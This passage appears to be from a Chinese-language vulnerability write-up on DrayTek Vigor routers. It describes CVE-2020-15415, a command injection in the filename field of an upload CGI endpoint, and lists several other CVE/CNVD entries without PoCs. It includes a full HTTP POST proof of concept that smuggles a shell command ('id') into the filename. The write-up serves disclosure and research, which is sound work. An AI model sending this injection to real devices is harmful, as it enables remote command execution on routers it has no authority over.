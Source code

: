 https://github.com/Cossack9989/Vulns/blob/d9f9fad0e967859cc119a9d3c31e90adc17c655f/IoT/CVE-2020-14472.md?plain=1#L4  
### CVE-2020-15415  
  
在1.5.1版本下，当访问cgi-bin/mainfunction.cgi/cvmcfgupload这个路径时，如果content type为text/x-python-script，则在filename中存在命令注入。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kEgicicM5SiaCd8VHxn02fwlYWd2d6eJ6wiclJQUu1pMt9JhPxmjkuiaRUMq32cf55gAdJAE6GFoU30ZlL24wfDCRoQ/640?wx_fmt=png "")  
  
  
  
跟进sub_12F24  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/kEgicicM5SiaCd8VHxn02fwlYWd2d6eJ6wicjwphWzg1GHM2Ugb69PuMiaSSFxSk4ic1PXwpiaNndnnNepGuXdgXNJGnQ/640?wx_fmt=jpeg "")  
  
  
命令拼接触发点如下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/kEgicicM5SiaCd8VHxn02fwlYWd2d6eJ6wicjwphWzg1GHM2Ugb69PuMiaSSFxSk4ic1PXwpiaNndnnNepGuXdgXNJGnQ/640?wx_fmt=jpeg "")  
  
#### poc  
```
POST /cgi-bin/mainfunction.cgi/cvmcfgupload?1=2 HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Content-Length: 174
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en;q=0.9,zh-CN;q=0.8,la;q=0.7
Connection: close

------WebKitFormBoundary`

Content-Disposition: form-data; name="abc"; filename="t';id;echo '1_"`

Content-Type: text/x-python-script`

------WebKitFormBoundary--`

```  
### [无真实poc]CVE-2020-19664  
  
https://github.com/peanuts62/bug_poc  
### [无poc]CNVD-2021-28718  
  
DrayTek Vigor2960 1.5.1.2  
### [无poc]CNVD-2021-28719  
  
DrayTek Vigor2960 1.5.1.2  
### [无poc]CVE-2021-43118  
  
- END -  
  
  
